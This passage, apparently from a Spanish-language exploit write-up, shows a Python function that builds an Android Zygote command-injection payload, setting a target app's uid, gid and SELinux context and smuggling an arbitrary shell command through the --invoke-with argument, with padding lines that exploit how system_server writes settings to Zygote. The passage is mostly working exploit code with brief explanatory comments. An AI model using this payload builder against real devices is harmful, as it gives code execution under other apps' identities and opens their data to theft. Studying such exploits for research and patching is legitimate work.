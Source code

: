 Al final de la variable, incluimos unas líneas en blanco al principio y unas comas con una 'X' al final como _padding_; su propósito se aclarará en la siguiente sección. Por ahora, sabemos que funciona, así que las dejamos.

{% highlight python linenos %}
def make_payload(app, command):
    # get user id
    uid = get_app_uid(app)
    if uid is None:
        print("[-] Error: can't find uid.")
        return

    # construct zygote command
    payload = "8" + "\n"
    payload += "--runtime-args" + "\n"
    payload += f"--setuid={uid}" + "\n"
    payload += f"--setgid={uid}" + "\n"
    if is_system_app(app):
        payload += "--seinfo=platform:privapp:targetSdkVersion=30:complete" + "\n"
    else:
        payload += "--seinfo=default:targetSdkVersion=30:complete" + "\n"
    payload += "--runtime-flags=1" + "\n"
    payload += "--nice-name=zYg0te" + "\n"
    payload += "--invoke-with" + "\n"
    payload += command + " ; #" + "\n"
    
    # Padding in the top:
    # we leave five new lines before the command's argument count (8)
    # because when system server send the command to Zygote it places a 6
    # arguments count over --set-api-blacklist-exemptions
    top_padding = 5
    payload = "\n" * top_padding + payload

    # Padding in the bottom
    # We leave 7 commas and a X to delay a bit the  zygote read
    # because those commas are splited before... or because the guy of meta
    # says so.
    payload += ",,,,X"   + "\n"
    
    return payload
{% endhighlight %}
